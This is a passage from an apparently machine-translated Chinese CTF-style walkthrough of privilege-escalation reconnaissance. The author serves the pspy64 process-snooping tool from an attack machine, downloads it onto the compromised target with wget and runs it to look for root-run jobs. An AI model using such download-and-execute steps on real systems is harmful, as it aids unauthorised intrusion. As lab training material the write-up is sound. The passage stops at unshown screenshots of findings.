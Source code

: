 
然而，在 linpeas 给我的所有东西中，没有一件第一眼看上去很突出。在对一些发现进行采样后，我决定使用另一个名为`pspy64`的工具。

Pspy“窥探”系统，跟踪用户在系统上执行的命令、cron 作业等，并观察系统的反应。我们可能会特别使用它来查找以 root 权限运行的服务/命令。

你可以在下面的链接中找到它。

[](https://github.com/DominicBreuker/pspy) [## 多米尼克·布鲁克/pspy

### pspy 是一个命令行工具，旨在无需 root 权限即可窥探进程。它可以让你看到…

github.com](https://github.com/DominicBreuker/pspy) 

```
$ python -m SimpleHTTPServer 6970
```

*   攻击机器

```
$ wget 10.10.14.25:6970/pspy64
```

*   远程机器

```
$ chmod +x pspy64$ ./pspy64
```

在对机器进行了相当长一段时间的监视后，很少有人引起 root 的反应。其中两项如下:

![](img/95a4a4df1a941419773ea3374bff0171.png)

每当有人通过 ssh 连接到机器时，就会发生这种情况

![](img/5eeb27aa4257fb4f7bdeccab74c58ad8.png)
